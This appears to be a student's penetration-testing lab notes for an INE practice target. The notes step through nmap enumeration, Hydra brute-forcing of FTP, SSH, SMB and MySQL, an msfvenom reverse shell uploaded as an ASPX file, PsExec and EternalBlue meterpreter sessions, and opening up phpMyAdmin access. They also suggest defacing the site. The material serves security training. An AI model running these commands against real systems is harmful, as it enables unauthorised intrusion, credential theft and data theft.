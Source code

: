 
Black box  Penetration Test 

To do: 
- `cat /etc/hosts `
- target: demo.ine.local 
10.2.19.218 

21/tcp    open  ftp                  Microsoft ftpd
22/tcp    open  ssh                  OpenSSH 7.1 (protocol 2.0)
80/tcp    open  http                 Microsoft IIS httpd 7.5
135/tcp   open  msrpc                Microsoft Windows RPC
139/tcp   open  netbios-ssn          Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds         Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3306/tcp  open  mysql                MySQL 5.5.20-log
3389/tcp  open  tcpwrapped
4848/tcp  open  ssl/http             Oracle Glassfish Application Server
7676/tcp  open  java-message-service Java Message Service 301
8080/tcp  open  http                 Sun GlassFish Open Source Edition  4.0
8181/tcp  open  ssl/http             Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
9200/tcp  open  wap-wsp?
49152/tcp open  msrpc                Microsoft Windows RPC
49153/tcp open  msrpc                Microsoft Windows RPC
49154/tcp open  msrpc                Microsoft Windows RPC

##### 1. Port scanning & enumeration 

- `Ping` target to check if we can communicate with the target
- perform `nmap` scan on target
	- basic scan: `nmap -sV ip `
	- `nmap  -T4 -PA -sC -sV -p 1-10000 target_ip -oX nmap_results_10k`
	- `nmap  -T4 -PA -sC -sV -p 1-65535 target_ip -oX nmap_results_65k` 
	- check udp port `nmap -sU -sV ip `
- Find out what is running on the target:
	- inspect pages that can be visited via browser 
- try to connect with a service:
	- `nc -nv target_ip target_port `

Output file in xml format can be imported in msfconsole 
Import findings in msfconsole: 
- `service postgresql start && msfconsole`
- create `workspace  `
- `db_import /root/Desktop/file/filename` (import results)
- `hosts` 
- `services`
- Get the exact operating system
	- `search smb_version`
	- `use aux/scanner/smb/smb_version`
	- ` set rhosts taret ip `
	- run (command `hosts` to check operating system)

#### Targeting Microsoft ISS FTP 

- Microsoft IIS - FTP is part of it the Microsoft IIS solution 
	- Microsoft ftp an microsoft IIS means that ftp is used to allow  authenticated users do modify the webserver directory

Steps:
1. identify vulnerability detection in regards with ftp: 
	- first check if anonymous logging is possible 
	    look for scripts: ` ls -al /usr/share/nmap/scripts/ | grep ftp- `
	    use script in nmap: `nmap -sV -p  --script=ftp-anon `
	    username: anonymous, password (geen) 

2.  ftp bruteforce attack with hydra
	- `hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt target_ip ftp `
	- check account: `hydra -l {username_youwanttofind}  -P /usr/share/wordlists/metasploit/unix_passwords.txt target_ip ftp ` or `hydra -l {username_youwanttofind}  -P /usr/share/wordlists/metasploit/unix_users.txt target_ip ftp `

3. use ftp ip port to connect to ftp server and use credentials found 

4. when you see an asp file you know the ftp client can TRY execute asp files 
	1. generate reverse shell with msfvenom 
		- `msfvenom -p windows/shell/reverse_tcp LHOST= your_ip LPORT= 1234 -f asp > shell.aspx `
	2. log back in into ftp server
		- put shell.aspx 
		- dir 

5. in different window start up multi/handler to receive the connection
	- `use multi/handler `
	- `set payload windows/shell/reverse_tcp `
	- in the browser: `ip/shell.aspx` 

if this did not work? 

pentester could try to deface the website: modify the webapplication or download client data - this is already something that should be reported. 
you could modify pages hosted 
get index.html
open the file in vim 
put index.html


#### Targeting OpenSSH 

Get the exact version of OpenSSH 

- `searchsploit OpenSSH version_number`
- burteforce: 
	- `hydra -l {username_youfound}  -P /usr/share/wordlists/metasploit/unix_users.txt target_ip ssh ` 
	- `hydra -l administrator  -P /usr/share/wordlists/metasploit/unix_users.txt target_ip ssh ` 
	- `hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.0.26.161 ssh`

	
	- - `unix_users.txt`: This file contains common usernames that are often used on Unix-based systems. You would use this list when **you want to try different usernames with known or common passwords**. For example, you might use a list of common usernames like "root," "admin," "user," etc., and then try various passwords with each of these usernames.
	- `unix_passwords.txt`: This file contains common passwords that are often used on Unix-based systems. You would use this list when you have a specific username that you want to test with a variety of common passwords

- ssh username@ip 
	- pwd - whoami - net localgroup - 
- msfconsole
	- search ssh_login 
	- use au/scanner/ssh/ssh_login 
	- upgrade shell 
	- windows cmd session in ssh : `bash` 
	- `net localgroup administrators `
	- `whoami /priv`


#### Targeting SMB 

- bruteforce: 
	- `hydra -l administrator -P /usr/share/wordlists/metasploit/unix_users.txt  target protocol `
- enumerate shares
	- `smbclient -L targetip -U username`
	- `smbmap -u vagrant -p vagrant -H targetip `
- enumerate user accounts `enum4linux -u username -p password -U ip ` 

 - msfconsole
	 - enumerate users: `smb_enumusers` 

###### PSexec

**Manual**
	psexec allows you to remotely authenticate via SMB with legitimate credentials
		- `locate psexec.py `
		- Copy the file to Desktop:` cp file_path rename_file   `
		- make the file executable so we can utilize it: `chmod +x psexec.py`
	- `python 3 psexec.py Administrator@ip `

**msfconsole** 
	- `search psexec `
	- `use exploit/windows/smb/psexec `
		- `set payload windows/x64/meterpreter/reverse_tcp`
		- `Sysinfo` 
		- `getuid`
		- `getprivs`


What to do when you don't have smb credentials? if you know that the device is running eternalblue: 
	- `search eternalblue `
	- `use exploit/windows/smb/psexec `


#### Targeting MySQL Database Server

msfconsole
	- `use/aux/scanner/mysql/mysql_login `
	- `set pass_file /usr/share.wordlists/metasploit/unix_password.txt`

login mysql database server:
- `mysql -u root -p -h ip `
- `show databases`;

visit ip and port in browser 
*use the credentials found with the bruteforce for mysql database server to get access to another server -> wordpress via phpmyadmin*


phpmyadmin (try to change configuration file)
- msfconsole (get elevated meterpreter session)
	- `use exploit/windows/smb/ms17_010_eternalblue`
	- C drive 
	- Navigate to the software stack's folder. For example, if using WAMP, you can navigate to the web root directory by typing:cd `C:\\wamp\\www`


											wordpress directory 
											cat contant of config.php
											contains mysql passwords 

**Modify phpMyAdmin Configuration file** 

- Search for the `phpmyadmin.conf` file that controls phpMyAdmin's access.
- Download the `phpmyadmin.conf` file to your local machine using the Meterpreter session.
- Open and edit the `phpmyadmin.conf` file. Make sure it allows access from all IP addresses.
- Upload the modified `phpmyadmin.conf` file back to the Meterpreter session using the `upload` command.
- Restart the Apache service to apply the changes:
    - Open a Windows command prompt within the Meterpreter session using `shell`.
    - Stop the Apache service with the command: `net stop wampapache`.
    - Start the Apache service again with: `net start wampapache`.
- Revisit the phpMyAdmin page in your browser; you should now have unrestricted access.
	- change the password![[Pasted image 20230914165333.png]]
- Log in to the WordPress site via phpMyAdmin using the MySQL credentials obtained earlier.






















#### Targeting MySQL Database Server 

